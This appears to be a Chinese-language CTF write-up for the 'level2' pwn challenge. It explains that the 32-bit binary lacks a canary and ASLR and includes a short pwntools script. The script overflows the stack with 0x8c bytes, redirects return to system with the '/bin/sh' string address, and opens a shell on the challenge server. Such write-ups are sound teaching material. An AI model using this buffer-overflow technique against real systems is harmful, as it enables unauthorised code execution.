



## [level2](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5055&page=1)



题目中明示使用 `面向返回的编程`(ROP) ，通过`checksec`发现32位elf且没有金丝雀值保护和地址随机化。所以只需要使用system函数的地址和参数地址覆盖就可以完成。

通过反汇编和gdb中find找到所需要的函数system地址为`0x8048320`，字符串`/bin/sh`的地址为`0x804a024`





exploit.py

```python
from pwn import *

context.log_level = "DEBUG"

# p = process("./level2")
p = remote("111.198.29.45", 43192)
# gdb.attach(p)

sysaddr = 0x08048320
binshaddr = 0x804a024

payload = "a" * 0x8c + p32(sysaddr) + p32(0) + p32(binshaddr)
# 0x88覆盖申请的栈空间，0x4覆盖ebp，sysaddr覆盖返回函数地址，0作为sys函数取参数的填充，
# binshaddr是字符串"/bin/sh"的地址

# p.recvuntil("Input:\n")
p.sendline(payload)
# p.recvuntil("Hello World!\n")
p.interactive()
```


